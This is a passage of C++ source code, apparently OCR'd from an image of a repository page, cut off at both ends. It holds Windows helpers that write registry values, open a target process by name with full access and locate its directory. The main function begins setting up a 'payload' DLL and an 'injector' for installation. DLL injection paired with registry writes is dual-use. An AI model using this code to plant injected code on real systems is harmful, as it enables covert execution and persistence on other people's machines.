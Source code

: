 ```cpp
    if (RegCreateKeyExA(key, subKey, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hKey, NULL) != ERROR_SUCCESS)
        _ERROR("Failed to open registry key!");

    return hKey;
}

void writeReg(HKEY key, LPCSTR val, LPSTR data, DWORD sz)
{
    if (RegSetValueExA(key, val, 0, REG_SZ, (LPBYTE)data, sz) != ERROR_SUCCESS)
        _ERROR("Failed to write registry!");
}

// thanks stackoverflow lol
HANDLE getProcessByName(const TCHAR* name)
{
    PROCESSENTRY32 entry;
    entry.dwSize = sizeof(PROCESSENTRY32);

    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);

    if (Process32First(snapshot, &entry) == TRUE)
    {
        while (Process32Next(snapshot, &entry) == TRUE)
        {
            if (lstrcmp(entry.szExeFile, name) == 0)
            {
                HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, entry.th32ProcessID);
                CloseHandle(snapshot);
                return hProcess;
            }
        }
    }

    CloseHandle(snapshot);
    return INVALID_HANDLE_VALUE;
}

std::string getExecutablePath()
{
    CHAR path[MAX_PATH];
    HANDLE hProcess = getProcessByName(TEXT(TARGET_EXE));

    if (hProcess == INVALID_HANDLE_VALUE)
        _ERROR("Failed to grab handle to process, is " TARGET_EXE " running?");

    if (GetModuleFileNameExA(hProcess, NULL, path, MAX_PATH) == 0)
        _ERROR("Failed to grab path to process!");

    // close handle
    CloseHandle(hProcess);

    // get directory (ugly but idc it's an example)
    std::string str(path);
    size_t indx = str.find(TARGET_EXE, 0);
    return str.replace(indx, indx + strlen(TARGET_EXE), "");
}

int main(int argc, const char *argv[])
{
    std::ifstream payloadDLL(TARGET_PAYLOAD_DLL), injector(TARGET_INJECTOR);
    std::string newPayloadPath, newInjectorPath;
    bool install = true;
```